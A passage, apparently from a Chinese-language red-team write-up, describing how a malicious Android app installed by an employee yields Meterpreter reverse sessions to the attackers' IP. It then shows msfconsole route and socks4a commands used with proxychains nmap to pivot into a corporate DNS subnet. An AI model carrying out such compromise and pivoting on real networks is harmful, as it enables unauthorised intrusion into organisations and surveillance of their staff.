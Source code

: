 为了利用公司职员会为了个人目的使用访客WiFi这一点，我们还想再公司附近放一个天线

<br>

**利用Meterpreter**

大概早上8:00的时候，我在msfconsole上收到了消息：

```
[*] Meterpreter session 1 opened (&lt;OUR_PUBLIC_IP&gt;:443 -&gt;X.X.X.X:51990) at …
```

Bingo！她安装并运行了恶意安卓程序，我们现在获得了一个Meterpreter会话

现在我们需要知道她是否连接到了公司的WiFi网络。IP检测结果表明它是从蜂窝网络连接的，她可能在去办公室的路上，也许她女儿正在玩拼图游戏。

会话并没有持续太久，几分钟后我们丢失了shell，但是在9:00前我们又收到了另一个Session：

```
[*] Meterpreter session 2 opened (&lt;OUR_PUBLIC_IP&gt;:443 -&gt;K.K.K.K:61545) at …
```

这次IP是公司的，说明她连接到了公司的WiFi网络

于是我们开始进行了一些初步探查，除了几台智能手机，我们只在一个不同的子网下找到了一台DNS服务器



```
meterpreter&gt;ipconfig
…..
Interface 9
============
Name : wlan0 – wlan0
Hardware MAC : 20:6e:9c:75:94:ba
IPv4 Address : 10.118.1.13
IPv4 Netmask : 255.255.255.0
IPv6 Address : fe80::226e:9cff:fe75:94ba
IPv6 Netmask : ::
…….
meterpreter &gt; shell
Process 1 created.Channel 1 created.
getprop net.dns1
192.168.178.196
```

访客WiFi网络在10.118.1.0/24上，而DNS服务器位于另一个子网

为了访问子网，我们配置了路由

```
exploit(handler) &gt; route add 192.168.178.0 255.255.255.0 1
```

Nmap扫描不能执行，于是我们使用proxychains做了一次快速的ping扫描



```
msf auxiliary(socks4a) &gt; use auxiliary/server/socks4a
msf auxiliary(socks4a) &gt; show options
Module options (auxiliary/server/socks4a):
Name Current Setting Required Description
—- ————— ——– ———–
SRVHOST 0.0.0.0 yes The address to listen on
SRVPORT 1080 yes The port to listen on.
# Attacker &lt;-&gt; proxychains nmap -sn 192.168.178.0/24 &lt;-&gt; DNS network
Nmap scan report for 192.168.178.195
Host is up (0.15s latency).
Nmap scan report for 192.168.178.196
Host is up (0.22s latency).
```
